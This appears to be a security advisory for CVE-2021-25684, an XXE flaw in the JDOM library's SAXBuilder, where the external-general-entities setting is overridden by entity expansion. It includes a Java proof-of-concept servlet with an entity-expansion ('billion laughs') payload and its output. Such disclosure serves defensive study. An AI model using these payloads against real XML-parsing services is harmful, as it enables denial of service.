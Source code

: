 ```yaml
---
layout: vuln
credit: estib
timeline:
    - type: 'report'
      date: '2021-02-16'
    - type: 'cve-assign'
      date: '2021-01-21'
    - type: 'patch'
      date: '2021-02-02'
    - type: 'release'
      date: '2021-02-02'
product:
     - ' - JDOM library'

vulnerable:
- ' - JDOM-2.0.6 and before'

severity: 'moderate'
alephid: ALEPH-2021003
cve: CVE-2021-25684
date: '2021-06-02'
references:
    - src: 'JDOM XXE brunch fix PR'
      url: 'https://github.com/hunterhacker/jdom/pull/188'

title: 'XXE in JDOM library - Java'  

---
```

While working with the JDOM library, We have found a bug in SAXBuilder class that might lead to an XXE vulnerability.
According to OWASP, to avoid XXE vulnerability, we need to configure the parser not to allow external entities by 
using setFeature() method with the following values: 

parser.setFeature("http://xml.org/sax/features/external-general-entities", false).

We have found that it does not matter which value is set in this feature. Whether it is true or false,
external-general-entities will use the value from the Expand Entity.
The solution is that setting user-specified features should be done after the set entity expansion. Since that user-specified configuration should have higher priority to avoid XXE.

Exploit example for the XXE bomb attack(billion laughs attack):
``` java
void test_SAXBuilder(HttpServletRequest request, HttpServletResponse response) throws IOException {
 
    String xmlParam = "<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY bar \"World \">
	<!ENTITY t1 \"&bar;&bar;\"><!ENTITY t2 \"&t1;&t1;&t1;&t1;\">
	<!ENTITY t3 \"&t2;&t2;&t2;&t2;&t2;\">]><foo>Hello &t3;</foo>";
    
    try {
        // disallow-doctype-decl is set to true and after parsing will hold value true
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        //builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, content: " + s);
    } catch (JDOMException e) {
    }
 
    try {
        // disallow-doctype-decl is set to false and after parsing will hold value true
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", false);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        //builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: false, content: " + s);
    } catch (JDOMException e) {
    }
 
    try {
        // disallow-doctype-decl is set to true and after parsing will hold value false
        // due to expandEntity value
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, ExpandEntities: false, content: " + s);
    } catch (JDOMException e) {
    }
  try {
        // disallow-doctype-decl is set to true and after parsing will hold value false
        // due to expandEntity value
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
             s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, ExpandEntities: false,  content: " + s);
    } catch (JDOMException e) {
    }
}
```
The output html is:
``` html
<html>
  <body>
    external-general-entities: true, content: Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World 
    external-general-entities: false, content: Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World 
    external-general-entities: true, ExpandEntities: false, content: Hello
    external-general-entities: true, ExpandEntities: false, content: Hello
  </body>
</html>
```
